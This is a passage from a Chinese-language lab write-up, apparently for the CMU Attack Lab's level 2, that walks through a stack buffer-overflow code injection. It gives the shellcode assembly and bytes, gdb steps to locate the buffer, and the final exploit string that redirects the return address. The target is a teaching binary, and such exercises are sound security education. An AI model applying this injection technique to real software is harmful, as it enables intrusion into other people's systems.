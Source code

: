 ```x86asm
pushq $0x4017ec 		#将函数touch2的地址压栈
retq 				#返回，将会自动跳转到touch2的地址
```
将其保存为文本cl2.s，编译并反汇编
```bash
gcc -c cl2.s 
objdump -d cl2.o 
```

最终得到它的16进制的表示如下
```x86asm
   0:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   5:	68 ec 17 40 00       	pushq  $0x4017ec
   a:	c3   
```
这就是我们的攻击代码，怎么让这段代码跑起来？简单来说分为以下几步（可以参照第一关的方法）：
* 首先要用这段代码填充到缓冲区。
* 然后覆盖test执行完毕之后会用到的返回地址，使其指向我们的攻击代码。

### 步骤2：计算攻击代码在缓冲区的地址
但是我们现在还不知道缓冲区的地址，因此需要debug一下以获取它。新建cl2.txt输入以下内容并保存：
```C
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
a8 17 40 00 00 00 00 00
```


然后按照以下方法debug
```bash
./hex2raw < cl2.txt > cl2.bin 	#为了方便gdb调试，我们先将二进制内容保存到另外一个文件
gdb ctarget #启动gdb

#这里省略若干行gdb的输出
.
.
.
(gdb) break * 0x4017a8		#在getbuf中设置断点
Breakpoint 1 at 0x4017a8

(gdb) run < cl2.bin -q 		#以cl2.bin为输入启动程序
(gdb) print /x $rsp		#显示栈顶的值 ，也是缓冲区的顶端
$1 = 0x5561dca0
```
0x5561dca0就是缓冲区的顶端（我们将缓冲区的顶端、低端与栈的顶部底部方向保持一致），因此0x5561dca0 - 0x28 = 0x5561dc78就是攻击代码需要插入的地方（也即缓冲区顶端）。

### 步骤3：生成攻击字符串
因此我们修改cl2.txt的内容如下：
```C
bf fa 97 b9 59 68 ec 17  
40 00 c3 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
00 00 00 00 00 00 00 00  
78 dc 61 55 00 00 00 00  
```
前两行是我们的攻击代码（来源于上面的cl2.o），不足部分用0补全；最后一行是程序的返回地址，攻击代码将会插入到由最后一行的数字所指定地址的内存中。然后执行以下命令即可通关
